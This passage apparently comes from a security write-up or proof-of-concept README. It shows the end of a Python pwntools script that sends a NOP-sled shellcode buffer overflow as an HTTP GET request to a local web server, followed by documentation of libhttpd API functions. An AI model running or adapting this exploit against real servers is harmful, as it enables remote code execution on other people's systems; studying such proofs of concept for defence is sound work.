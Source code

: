 ```python
    PAYLOAD = b"\x90"*(1020-len(sc))
    PAYLOAD += sc
    PAYLOAD += b"\x90"*28
    
    c = remote(host, port)
    c.sendline(b"GET " + PAYLOAD + shellAddr)
    
    info("Payload length: {}".format(len(PAYLOAD)))
    success("Payload has been send successful.")


if __name__ == "__main__":
    main("127.0.0.1", 8081)
```

![](exploit/exploit_img.png)  

____
## definitions

```c++
    httpd * httpdCreate ( host , port )
    char * host
    int port
```
**httpdCreate( char * host , int port ):** is used to create an new web server instance. The returned handle is used for
all further interaction with the API library that pertains to the web server created by this
function. The host argument, if provided, defines a single IP Address to which the server will
bind. If NULL is provided as the argument then the server will bind to all addresses available
on the host machine. The port parameter is the numeric TCP port on which the server will
listen. The predefined constant HTTP_PORT can be used if the server is to run on the default
web server port (i.e. TCP port 80)
_____
```c++
    httpdProcessRequest ( server, request )
    httpd *server;
    httpReq *request;
```
**httpdProcessRequest ( httpd *server, httpReq *request )**: When httpdProcessRequest( ) is called, it evaluates the request, locates the requested content,
and responds to the client. If the content entry is static or file based content, the information